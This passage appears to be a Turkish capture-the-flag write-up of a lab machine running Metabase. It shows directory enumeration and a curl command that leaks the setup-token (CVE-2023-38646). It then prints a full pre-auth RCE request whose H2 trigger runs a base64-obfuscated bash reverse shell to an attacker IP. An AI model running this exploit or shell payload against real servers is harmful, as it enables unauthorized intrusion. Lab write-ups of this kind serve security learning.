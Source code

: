Yeni bulunan adres için Gobuster dizin numaralandırma girişiminde bulunduğumda aşağıdaki hata ile karşılaştım:

```text
Error: the server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/f08e9427-c322-4095-8b2c-4654cd7d10c5 => 200 (Length: 77894). To continue please exclude the status code or the length
```

Gobuster, geçerli olmayan bir URL ile bağlantı denemesinde bulunduğunda 200 başarı mesajı alıyor ve bu yüzden hata veriyor. Kısa bir araştırmadan sonra sunucunun bu şekilde davranacak şekilde kurulabileceğini öğrendim. Geçerli olmayan bir URL isteğinde bulunduğumuzda dahi 200 yanıtını döndürüyor.

Gobuster aracının denediği geçersiz URL adresine gidip Burp ile bu bağlantı arasına girdim. Ardından bağlantıyı birkaç kez normal şekilde Forward ettiğimde, bağlantının `api/setup/properties` dizinine uğradığını fark ettim. Kısa bir Google aramasından sonra, bu dizinde bulunan ve halka açık olarak bulunmaması gereken `setup-token` bilgisinin erişilebilir olduğunu öğrendim ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)).

Bu `setup-token` bilgisini aşağıdaki komut ile elde ettim:

```bash
echo $(curl -s -H "Content-Type: application/json" http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]')
```

```text title="Output"
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Kullanabileceğim bir PoC için arama gerçekleştirdiğimde [bu](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) site ile karşılaştım. Bulduğum PoC kodunu kendime göre düzenledim:

```json title="PoC" hl_lines="7 20"
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

